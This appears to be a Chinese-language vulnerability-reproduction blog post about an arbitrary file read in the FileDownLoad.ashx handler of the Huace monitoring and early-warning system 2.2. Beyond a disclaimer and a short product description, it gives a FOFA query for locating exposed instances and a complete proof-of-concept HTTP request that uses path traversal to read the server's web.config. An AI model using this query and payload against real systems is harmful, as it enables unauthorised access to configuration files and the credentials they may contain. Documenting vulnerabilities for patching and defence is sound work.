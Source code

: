 # 原创
：  漏洞复现--华测监测预警系统2.2任意文件读取

# 漏洞复现--华测监测预警系统2.2任意文件读取

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

华测监测集成事业部充分利用在地质灾害监测方面的技术积累，建立了一套科学完善的地质灾害监测预警平台，实现了地质灾害防治管理的科学化、信息化、标准化和可视化。该产品2.2版本FileDownLoad.ashx存在任意文件读取漏洞。此漏洞来自掌控安全学院

### 二：漏洞影响版本

华测监测预警系统2.2

### 三：网络空间测绘查询

fofa：`app="华测监测预警系统2.2"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/bf2e77897032d43402642a4c7eb61954.jpeg"/>

### 四：漏洞复现

poc:

```
POST /Handler/FileDownLoad.ashx HTTP/1.1
Host: ip:port
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

filename=1&amp;filepath=../../web.config

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/77fdf53254589b215309e99edec62d4f.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/204d4d3e5bfd8fa9e236f55cbc36dc52.jpeg"/>
